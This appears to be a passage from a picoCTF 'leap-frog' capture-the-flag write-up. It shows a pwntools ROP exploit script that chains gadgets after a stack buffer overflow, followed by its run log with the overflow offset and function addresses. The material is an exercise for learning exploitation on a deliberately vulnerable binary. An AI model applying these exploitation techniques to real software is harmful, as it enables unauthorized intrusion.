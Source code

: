 ```python
rop = ROP(context.binary)
rop.leapA()
rop.raw(0x08048ac0) # add al, byte ptr [ebp - 0x3b] ; ret
rop.raw(0x080485f3) # mov byte ptr [eax + 0x3d], 1 ; nop ; pop ebp ; ret
rop.raw(0xBABABABA) # popped into ebp
rop.leap2(0xDEADBEEF)
rop.leapA()
rop.display_flag()

log.info("ROP: \n{}".format(rop.dump()))

ebp = p32(location_of_2 + 0x3b)
log.info("EBP: {}".format(hex(u32(ebp))))

payload = fit({overflow_offset - len(ebp): ebp + str(rop)}, filler = 'A')
log.info("Payload: \n{}".format(hexdump(payload)))

io = start()
send_payload(io, payload)
print io.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/leap-frog# python exploit.py
[*] '/media/sf_CTFs/pico/leap-frog/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.zh7aJOoGFI'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/leap-frog_3_5d6cea2f1cec97458549353ec1e7e158'
[+] Starting local process '/media/sf_CTFs/pico/leap-frog/rop': pid 3054
[*] Process '/media/sf_CTFs/pico/leap-frog/rop' stopped with exit code -11 (SIGSEGV) (pid 3054)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/leap-frog/core.3054'
    Arch:      i386-32-little
    EIP:       0x61616168
    ESP:       0xffecda80
    Exe:       '/media/sf_CTFs/pico/leap-frog/rop' (0x8048000)
    Fault:     0x61616168
[*] Overflow offset: 28 (4-byte architecture)
[*] leapA() address: 0x80485e6
[*] leap2() address: 0x80485fd
[*] leap3() address: 0x8048666
[*] display_flag() address: 0x80486b3
[*] win1 address: 0x804a03d
[*] win2 address: 0x804a03e
[*] win3 address: 0x804a03f
[*] location_of_2 address: 0x80480b4
```